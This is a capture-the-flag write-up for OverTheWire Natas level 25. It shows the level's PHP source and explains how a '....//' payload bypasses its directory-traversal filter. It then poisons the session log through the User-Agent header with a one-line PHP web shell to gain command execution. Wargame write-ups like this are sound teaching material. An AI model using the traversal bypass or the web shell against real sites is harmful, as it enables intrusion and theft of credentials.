





# Natas
> Level : Natas Level 25<br/>
> Solved : 28th July 2021<br/>
> Remarks : Local File Inclusion + code Execution<br/>
<br/>

## Quest
We are presented with a webpage containing a badass Quote.



Backend Code for this page

```php
<?php
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
    
function listFiles($path){
    $listoffiles=array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[]=$file;
    
    closedir($handle);
    return $listoffiles;
} 

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```
<br/>

## Solution

Lets shift focus from awesomeness of the presented quote to finding password for the next Level.

Below is the Breakdown of relevant functions in Backend code.

The `setLanguage()` function

  - This function checks if `lang` parameter exists in our request and then includes that file using `safeinclude()`.<br/>
  - If not present, default file to include is `language/en`<br/>
        
The `safeinclude()` function

  - checks for Directory Traversal attacks, it finds and replaces `../` with empty string.<br/>
  - It also exits, when attempt is made to retrieve password file for next level (`/etc/natas_webpass/natas26`)<br/>
  - if above two checks are passed, it includes the file<br/>

The `logRequest()` function

  - This function logs error when `safeinclude` functions finds attack attempts<br/>
  - Notice that it directly embeds the clients `USER_AGENT` string in the log file. This can come handy later.<br/>
  - We have path of log file as `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`<br/>


Lets get to work now.

Firstly tried with the usual directory traversals payloads and got no luck (this was somewhat expected)



After a while, turned to local machine to understand various PHP functions used in Backend code.

First lets see how `strstr` function works. `strstr` function finds first occurence of a string and returns the whole string starting from that occurence

```php
echo strstr('hello/../../../etc/passwd/../', '../');   # Output : ../../../etc/passwd/../
```

Next, lets see `str_replace` . It Replaces all occurrences of the search string with the replacement string.

```php
echo str_replace('../', '', '../../../../etc/passwd');  # Output : etc/passwd
```

Then i looked at if somehow i can bypass these functions, and it turns out that yes, it could be done.

See Below session

```php
# I tried different things to bypass str_relace functions and finally came up with this payload
echo str_replace('../', '', '....//....//....//....//etc/passwd');  # Output : ../../../../etc/passwd
```

So now, after `str_replace()` function runs, we can still slip in `../` characters and do Directory Traversal attack.

Below, we use this to see a file that we know exists -> `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`



Above we have successfully conducted Directory Traversal attack, but still can't display password containing file `/etc/natas_webpass/natas26` becuase of the code logic.

We will now poison the log file with our webshell using the `User-Agent` header (handy!) and see if this works.

Webshell payload:
```php
<?php echo '<pre>' . shell_exec($_GET[ 'cmd']) . '</pre>';?>
```




Now we have command execution, lets reveal the password for next Level



<br/>
<span id=green>**Takeaway**</span><br/>

  - 
  - 

<br/>
This one was satisfying to do

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
